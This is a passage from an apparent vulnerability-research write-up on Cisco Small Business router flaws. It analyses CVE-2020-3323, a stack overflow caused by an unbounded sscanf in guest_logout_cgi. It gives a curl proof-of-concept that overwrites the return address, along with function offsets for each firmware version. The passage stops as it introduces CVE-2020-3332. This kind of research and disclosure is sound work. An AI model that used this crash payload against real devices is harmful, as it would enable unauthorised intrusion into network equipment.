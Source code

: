 I'll go over each CVE in the next sections.

### Finding CVE-2020-3323

CVE-2020-3323 is described as "_A vulnerability in the web-based management interface of Cisco Small Business **RV110W, RV130, RV130W, and RV215W Routers** could allow an **unauthenticated, remote attacker to execute arbitrary code** on an affected device._".

At first I thought this memory corruption was linked to insecure calls to strcpy that were fixed between revision 1.2.2.5 and 1.2.2.8, but it did not make sense as these calls were unreachable from an unauthenticated context. After a while, I finally identified what triggered the memory corruption: an insecure call to _sscanf_ in the _guest_logout_cgi_ function.

The function is quite large but the pseudo-code below should give you the gist of it:

{% highlight c %}

char acStack172 [64];
char acStack108 [68];

char* cip = get_cgi("cip");
char* cmac = get_cgi("cmac");
char* submit_button = get_cgi("submit_button");

int v = strstr(submit_button,"status_guestnet.asp");
if(v != NULL){
    // they're looking for status_guestnet.asp;session_id=current_user_session_id_value
    sscanf(submit_button,"%[^;];%*[^=]=%[^\n]",acStack108,acStack172);
}
{% endhighlight %}

The _submit_button_ value is user controlled and given that size is not explicitly provided, we can overflow acStack108 or acStack172. The curl command below is a reduced crash case that will overwrite the return address with 0x42424242 (BBBB).

{% highlight curl %}
curl -ki -X POST https://192.168.1.43/guest_logout.cgi -d"cmac=00:01:02:03:04:05"\
-d "ip=192.168.1.1"\
-d "submit_button=status_guestnet.aspAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"
{% endhighlight %}



Here's the function offsets for reference:

| **Model** | **Firmware**  | **Offset**    |
|:----------|:-------------:|--------------:|
| RV110     | 1.2.2.5       | 0x004317f8    |
| RV130     | 1.0.3.52      | 0x0002b170    |
| RV215     | 1.3.1.5       | 0x0043441c    |

### Finding CVE-2020-3332

CVE-2020-3332 is described as "_A vulnerability in the web-based management interface of **Cisco Small Business RV110W, RV130, RV130W, and RV215W Series Routers** could allow an **authenticated, remote attacker to inject arbitrary shell commands that are executed by an affected device**._".
